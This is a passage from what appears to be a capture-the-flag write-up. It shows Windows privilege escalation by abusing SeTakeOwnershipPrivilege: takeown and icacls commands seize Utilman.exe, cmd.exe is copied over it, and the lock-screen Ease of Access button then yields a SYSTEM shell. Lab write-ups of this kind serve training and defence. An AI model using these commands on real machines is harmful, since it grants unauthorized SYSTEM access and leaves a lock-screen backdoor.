 ### Using SeTakeOwnershipPrivilege to escalate

With the `SeTakeOwnershipPrivilege`, we can follow the method mentioned [here](https://vk9-sec.com/privilege-escalation-windows-privileges-setakeownership/) to get a shell as `SYSTEM` by replacing `Utilman.exe` with `cmd.exe`.

Taking ownership of `C:\Windows\System32\Utilman.exe`.

```console
PS C:\Windows\system32> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "EXFILIBUR\kingarthy".
```

Giving our current user full permissions over `C:\Windows\System32\Utilman.exe`.

```console
PS C:\Windows\system32> icacls C:\Windows\System32\Utilman.exe /grant kingarthy:F
processed file: C:\Windows\System32\Utilman.exe
Successfully processed 1 files; Failed processing 0 files
```

Now, replacing it with the `cmd.exe`.

```console
PS C:\Windows\system32> copy cmd.exe Utilman.exe
```

Getting access to the lock screen.

![Lock Screen](lock_screen.webp){: width="300" height="500" }

On the lock screen, we can click the `Ease of access` button to spawn a shell as `SYSTEM`.

![Ease of Access button](ease_of_access.webp){: width="800" height="500" }

With this shell, we can read the root flag found in Administrator's Desktop.

![System Shell](system_shell.webp){: width="800" height="500" }

<style>
.wrap pre{
  white-space: pre-wrap;
}
</style>